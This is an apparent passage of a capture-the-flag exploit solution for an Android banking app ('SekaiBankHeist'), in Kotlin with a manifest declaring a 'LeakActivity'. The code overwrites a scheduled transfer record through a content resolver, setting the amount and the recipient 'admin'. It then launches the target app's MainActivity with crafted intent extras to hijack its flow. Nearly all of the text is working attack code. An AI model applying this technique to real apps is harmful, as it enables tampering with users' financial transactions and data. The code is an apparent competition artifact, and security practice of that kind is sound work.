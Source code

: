 ```kotlin
                        println("\t" + data)
                        b.append("\t" + data).append("\n")
                        val jsonObject = JSONObject(data)
                        jsonObject.put("amount", 1)
                        jsonObject.put("toUsername", "admin")
                        val sdf =
                            SimpleDateFormat("yyyy-MM-dd HH:mm:ss.SSS", Locale.getDefault())
                        val formattedDate: String? = sdf.format(Date())
                        jsonObject.put("scheduledTime", formattedDate)
                        val bytes = jsonObject.toString().toByteArray(charset("UTF-8"))
                        val os = contentResolver.openOutputStream(fileUri)!!
                        os.write(bytes)
                        os.close()
                    } catch (e: Exception) {
                        e.printStackTrace()
                    }
                }
                cursor.close()
                println("thats it")
            } else {
                println("noooo cursor = null")
            }
        }
        val intent = Intent()
        intent.setComponent(
            ComponentName(
                "com.sekai.bank",
                "com.sekai.bank.MainActivity"
            )
        )

        intent.putExtra("context", "ww")
        intent.putExtra("from_pin_setup", true)
        this.startActivity(intent)
        enableEdgeToEdge()
        setContent {
            SekaiBankHeistTheme {
                Scaffold(modifier = Modifier.fillMaxSize()) { innerPadding ->
                    Greeting(
                        name = "Leaked Haha",
                        modifier = Modifier.padding(innerPadding)
                    )
                }
            }
        }
    }
}
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android">

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SekaiBankHeist">
        <activity
            android:name=".LeakActivity"
```